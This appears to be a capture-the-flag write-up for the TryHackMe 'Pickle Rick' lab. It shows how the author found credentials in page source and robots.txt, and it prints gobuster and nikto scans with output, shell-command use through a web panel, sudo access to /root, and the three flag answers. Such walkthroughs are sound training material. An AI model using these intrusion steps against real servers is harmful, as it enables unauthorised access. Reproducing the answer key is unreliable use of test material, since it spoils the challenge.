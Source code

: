 [< Back to All CTFs](https://github.com/KrisLloyd/Python/tree/master/CTF#ctf-solves)

[< Back to AE CTF](https://github.com/KrisLloyd/Python/tree/master/CTF#ae-ctf---tryhackme-april-2021)
***

# Pickle Rick

![Exfil Challenge](PickleRick.PNG)

### Challenge:
##### This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.
##### 90 Points Total, 30 per question

### Solve:

Since this was a webserver challenge, the first step was to open the provided IP address (10.10.117.3) in a web browser. The landing page suggested that I need to gain access to the system and discover the 3 special ingredients (flags).

![Webpage](webpage.PNG)

Checking the source code of the web page was the next obvious choice. Hidden in the <body> tag was a <div> that contained a comment with the username.
  
```html
<!--Note to self, remember username! Username: R1ckRul3s-->
```
Great, half-way there! The next step is the getting the password. The challenge task suggests that 'dirbuster' should be used, so that was my next choice.

![dirb](dirb.PNG)

```bash
root@ip-10-10-150-158:~# gobuster dir -u http://10.10.117.3 -w /root/Desktop/Tools/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.117.3
[+] Threads:        10
[+] Wordlist:       /root/Desktop/Tools/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/04/21 15:19:50 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/assets (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)
===============================================================
2021/04/21 15:19:50 Finished
===============================================================
```
Ok, these are some exciting results. Checking out the results, only the robots.txt contained anything that I would deem to be usefull. The page contained a single string:

```
Wubbalubbadubdub
```

Ok, I assume this is most likely the password. Lets try and ssh into the machine and see what we can find.

```bash
root@ip-10-10-150-158:~# ssh R1ckRul3s@10.10.117.3
R1ckRul3s@10.10.117.3: Permission denied (publickey).
```

That didn't work. Time to try something else. The attack VM contains a folder of tools for web, and included in that was a tool for Nikto. Checking the [Kali description](https://tools.kali.org/information-gathering/nikto) for Nikto, it says its an 'Open Source (GPL) web server scanner', that sounds exactly like ehat I need. Lets see if it turns up something interesting.

```bash
root@ip-10-10-150-158:~# nikto -h http://10.10.117.3
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.117.3
+ Target Hostname:    ip-10-10-117-3.eu-west-1.compute.internal
+ Target Port:        80
+ Start Time:         2021-04-21 15:35:30 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x426 0x5818ccf125686 
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" retrieved but it does not contain any 'disallow' entries (which is odd).
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 6544 items checked: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2021-04-21 15:35:39 (GMT1) (9 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```
Bingo! Looks like there is a `/login.php` page, lets see what we've got.

![Login Page](LoginPage.PNG)

Using the username `R1ckRul3s` and password `Wubbalubbadubdub` granted access! Taking a look around, it looks like the page lands on the **Command Panel** tab, checking any of the other tabs just gives the same response:

![Command Panel](Command.PNG)

![Other Tabs](Tabs.PNG)

Assuming the command panel operates like the shell, I entered the **ls** command as a test and got some very interesting output:

```bash
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

However, trying to read any of the files using cat provided another road block. Disabled commands:

![Disabled Commands](Disabled.PNG)

Thankfully there's more than one way to read strings, by using **strings**! That got the first answer out of the way. I also read the **clue.txt** for hints on any other locations:

```bash
mr. meeseek hair
```

```
(clue.txt)
Look around the file system for the other ingredient.
```

Ok, where else could data be hidden. **whoami** shows that I'm a non-user account **www-data**. Since this is Rick's computer, he must have an account, lets see if there is anything on his account. In the home directory of the **rick** user, there is a file called **second ingredients**, using the same **strings** method as the first ingredient provided the second:


```bash
(/home/rick/"second ingredient")
1 jerry tear
```

2 out of 3 down, one more to go. My next step is root, CTFs always hide stuff in root. The **www-data** shouldn't have access to the root folder by default, so let's try and switch users. Performing **sudo su** to switch to any user doesn't seem to work, switchint ro **rick**, **ubuntu**, and **root** didn't go through. Let't just try using **sudo** to **ls** the root directory:

```bash
3rd.txt
snap
```

Paydirt! lets see what it says:

```bash
(3rd.txt)
3rd ingredients: fleeb juice
```




### Flag

**First ingredient:**
```
mr. meeseek hair
```
**Second ingredient:**
```
1 jerry tear
```
**Third ingredient:**
```
fleeb juice
```
